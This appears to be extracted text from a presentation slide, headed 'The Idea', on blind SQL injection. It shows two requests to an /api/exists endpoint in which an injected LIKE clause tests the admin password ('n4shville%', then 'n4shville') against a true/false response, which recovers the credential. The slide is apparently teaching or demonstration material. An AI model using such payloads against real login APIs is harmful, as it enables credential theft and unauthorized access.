

The Idea
...
GET /api/exists?user=' or user='admin' and pass like 'n4shville%'-- -
{"exists": true}
GET /api/exists?user=' or user='admin' and pass like 'n4shville'-- -
{"exists": true}